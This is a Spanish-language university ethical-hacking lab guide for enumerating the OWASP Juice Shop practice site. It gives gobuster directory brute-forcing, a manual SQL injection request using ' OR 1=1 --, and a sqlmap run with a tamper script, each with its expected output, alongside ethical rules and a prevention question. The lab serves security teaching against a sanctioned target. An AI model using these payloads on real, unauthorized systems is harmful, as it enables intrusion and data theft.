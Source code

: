
# Laboratorio Semana 6 – Enumeración Avanzada sobre OWASP Juice Shop (Online) - (CY-203 Hackeo Ético)


**Curso**: CY-203 Hackeo Ético  
**Semana**: 6  
**Duración**: 2 horas  
**Objetivo general**: Aplicar técnicas de enumeración contra el entorno vulnerable público de OWASP Juice Shop, reconociendo rutas, servicios y posibles puntos de ataque.

---

## Objetivos específicos

1. Comprender la enumeración como subfase del escaneo en un entorno real expuesto en Internet.
2. Utilizar herramientas de enumeración contra un sitio web legítimo de práctica.
3. Identificar rutas sensibles y patrones de respuesta HTTP.
4. Analizar la posibilidad de vulnerabilidades como inyección SQL a partir de la información recolectada.

---

## Conceptos clave

| Término | Definición |
|--------|------------|
| **Enumeración** | Proceso de obtención de información detallada de un objetivo usando técnicas de escaneo inteligente y peticiones controladas. |
| **HTTP** | Protocolo de transferencia de hipertexto. Permite la comunicación entre navegador y servidor web. |
| **DNS** | Sistema de Nombres de Dominio, traduce nombres como `herokuapp.com` a direcciones IP. |
| **SQLi (SQL Injection)** | Técnica para insertar comandos SQL maliciosos en formularios o URLs que no filtran correctamente la entrada. |
| **Gobuster** | Herramienta que fuerza rutas en un servidor web usando diccionarios (wordlists). |

---

## Herramientas necesarias (en Kali)

- `curl`, `nmap`, `gobuster`, `dirb`, `sqlmap`
- `wireshark` (opcional para observar tráfico local)
- Navegador Firefox o Chromium
- Wordlist: `/usr/share/wordlists/dirb/common.txt`

---

## Desarrollo del Laboratorio

### 1. Verificar accesibilidad del sitio

```bash
curl -I https://juice-shop.herokuapp.com
```

**Salida esperada**:

```
HTTP/2 200
content-type: text/html; charset=utf-8
```

---

### 2. Escaneo de puertos web (limitado por políticas éticas y técnicas)

```bash
nmap -Pn -p 443 juice-shop.herokuapp.com
```

**Salida esperada**:

```
443/tcp open  https
```

---

### 3. Enumeración de rutas con `gobuster`

```bash
gobuster dir -u https://juice-shop.herokuapp.com -w /usr/share/wordlists/dirb/common.txt -k
```

**Salida esperada**:

```
/rest (Status: 200)
/ftp (Status: 403)
/admin (Status: 200)
```

---

### 4. Exploración de rutas REST manualmente

```bash
curl https://juice-shop.herokuapp.com/rest/products/search?q=apple
```

**Salida esperada**: JSON con productos.

---

### 5. Prueba de inyección SQL manual

```bash
curl "https://juice-shop.herokuapp.com/rest/products/search?q=' OR 1=1 --"
```

**Salida esperada**: JSON con múltiples productos.

---

### 6. Uso de sqlmap (opcional y ético)

```bash
sqlmap -u "https://juice-shop.herokuapp.com/rest/products/search?q=test" --level=2 --risk=1 --batch --tamper=space2comment
```

**Salida esperada**:

```
[INFO] the back-end DBMS is SQLite
[INFO] the parameter 'q' appears to be injectable
```

---

## Reglas éticas

- Solo usar sitios **autorizados para pentesting**, como Juice Shop.
- No lanzar escaneos masivos.
- Documentar y no comprometer disponibilidad del entorno.

---

## Entregables

1. Capturas de:
   - `curl` con SQLi
   - Resultado de `gobuster`
   - Comprobación HTTP inicial
2. Resumen con rutas, parámetros vulnerables y riesgos.
3. Reflexión final:
   - ¿Por qué es peligrosa una entrada como `' OR 1=1 --`?
   - ¿Cómo se puede prevenir desde el lado del servidor?


---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
